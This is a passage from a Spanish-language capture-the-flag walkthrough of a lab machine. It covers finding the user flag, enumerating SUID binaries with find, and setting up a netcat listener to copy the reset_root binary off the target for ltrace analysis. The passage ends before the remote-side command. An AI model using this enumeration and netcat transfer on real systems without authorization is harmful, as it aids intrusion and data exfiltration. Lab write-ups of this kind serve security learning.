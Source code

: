 <img width="581" height="202" alt="image" src="https://github.com/user-attachments/assets/b23554b9-5745-4723-bb3d-070279628a8f" />

Añado como ejemplo el comando ls pero como vemos ya tenemos una shell tipo bash, no es la forma más óptima pero si que nos ayuda a buscar la primera flag.

## Primera Flag y Escalado de Privilegios {#primera-flag-y-escalado-de-privilegios}

Primero vamos a obtener la flag del usuario simple, investigando dentro de /var/www/html no encontramos nada, como podemos ver aquí:

<img width="627" height="256" alt="image" src="https://github.com/user-attachments/assets/90092dfd-2015-49df-bce1-30ad0456a8c0" />

Solo vemos los ficheros que ya conociamos anteriormente, por lo que hay no puede estar, si retrocedemos un par de directorios hasta var podemos ver:

<img width="726" height="136" alt="image" src="https://github.com/user-attachments/assets/4c996f82-ee19-4892-9fc3-fda6293b530c" />

Vemos un directorio llamado earth_web y en su interior:

<img width="840" height="187" alt="image" src="https://github.com/user-attachments/assets/03f1111b-b446-4f3f-bc03-59e664124f62" />

Entre muchos ficheros encontramos la flag del usuario finalmente.

Ahora bien para poder escalar los privilegios, comprobaremos los SUID de los binarios de los sistemas que al igual que en jangow es una buena práctica de inicio, lo haremos usando el mismo comando de la anterior máquina.

```
find / -perm -u=s -type f 2>/dev/null
```
<img width="683" height="456" alt="image" src="https://github.com/user-attachments/assets/e53aba79-cd4e-4ad6-a32e-5bcca2ec6639" />

Entre los binarios vemos este que se llama reset_root que parece interesante, reiniciaría el acceso root y podríamos obtener el escalado que buscamos, vamos a probar a ejecutar el script:

<img width="585" height="150" alt="image" src="https://github.com/user-attachments/assets/a200d176-c96c-4cb5-aa54-aa9f14d3a3da" />

Vemos que requiere algunos triggers, que no tenemos y que ciertamente no sabemos nada sobre ellos, para obtener algo más de información investigando he encontrado la herramienta **ltrace**, que permite interceptar y mostrar las llamadas a funciones de las bibliotecas compartidas hechas por un proceso y sus argumentos y valores de retorno.

Nos servirá para depurar y hacer ingeniería inversa ligera al reset_root y extraer la información de los triggers.

Para ello primero nos llevamos el binario a nuestro sistema local, para ello usaremos netcat mismamente, abriendo otra shell por ejemplo en el puerto 9002 de la máquina anfitrión y diciendo que lo que se enviara a la máquina sera el reset_root de la máquina remota.

```
nc -lp 9002 > reset_root
```
Y esto será lo que escribamos en la shell remota de netcat ya abierta:
